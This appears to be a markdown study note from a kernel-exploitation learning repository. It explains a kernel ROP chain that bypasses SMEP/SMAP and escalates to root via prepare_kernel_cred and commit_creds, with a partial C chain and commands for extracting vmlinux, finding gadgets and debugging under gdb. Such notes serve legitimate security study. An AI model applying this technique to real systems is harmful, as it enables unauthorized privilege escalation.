

some prerequisites...

When `smep` and `smap` are enable, the previous `ret2usr` exploit can't be used because userspace code no longer accessible and executable (just like `NX` in userland). So we use ROP, similar to this:

```C
...
    rop[inc] = pop_rdi;
    rop[inc] = 0;
    rop[inc] = prepare_kernel_cred;
    rop[inc] = pop_rcx;
    rop[inc] = 0;
    rop[inc] = mov_rdi_rax;
    rop[inc] = commit_creds;
    rop[inc] = swapgs;
    rop[inc] = iretq;
    rop[inc] = user_rip;
    rop[inc] = user_cs;
    rop[inc] = user_rflags;
    rop[inc] = user_rsp;
    rop[inc] = user_ss;
...
```

### Finding kernel gadgets

First, to find the Linux kernel ROP gadget, we need to extract the ELF file, `vmlinux`, which is the core of the kernel, from the `bzImage`. For this, we'll use the official shell script [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) :

```bash
extract-vmlinux bzImage > vmlinux
```

use your favorite tool to find the ROP gadget: https://github.com/Ben-Lichtman/ropr

```bash
ropr vmlinux --noisy --nosys --nojop -R '^pop rdi.+ret;'
```

**Warning**:

> It seems that in the kernel image file `vmlinux`, there is no information about whether a region is executable or not, so `ROPgadget` will attempt to find all the gadgets that exist in the binary, even the non-executable ones. If you try to use a gadget and the kernel crashes because it is non-executable, you just have to try another one.

> Notice that the ROP chain can be shorter by skip `prepare_kernel_cred`, instead use `init_cred` and pass to `commit_cred`, but should do full rop because not all `linux` version build with `init_cred` symbol, if we want to use we have to debug and find where it located

### Stack pivot?

> when we cannot fit the whole ROP chain in stack...

Its worth to read: [this](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/#pivoting-the-stack)

### Debug kernel with symbols

Debug kernel is pain, its alot easier when have symbols

download `vmlinux-to-elf`: https://github.com/marin-m/vmlinux-to-elf

usage:

```bash
./vmlinux-to-elf <input_kernel.bin> <output_kernel.elf>
```

then after start qemu, open gdb:

```bash
gdb <output_kernel.elf>
```

```bash
pwndbg> target remote:12345
```

its much better now:



### kROP: +smep, +smap, no kpti, no kaslr

**Summary**:
- ROP into `prepare_kernel_cred(0)`.
- ROP `into commit_creds()`, with the return value from step 1 as parameter.
- ROP into `swapgs ; ret`.
- ROP into `iretq` with the stack setup as `RIP|CS|RFLAGS|SP|SS`.

Tutorial: [this](https://github.com/5o1z/kNotes/tree/main/LKE/LK01/V1#exploit-krop-bypass-smep-smap-with-no-kpti-no-kaslr) and [this](https://github.com/vilesport/Kernel-exploit/tree/main/Kernel%20Exploit%20Basics/LK01/HTV1#krop-smep-smap-no-kpti-no-kaslr) and [this](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/) and [blog](https://pawnyable.cafe/linux-kernel/LK01/stack_overflow.html#kROP)

> exploit code in the same folder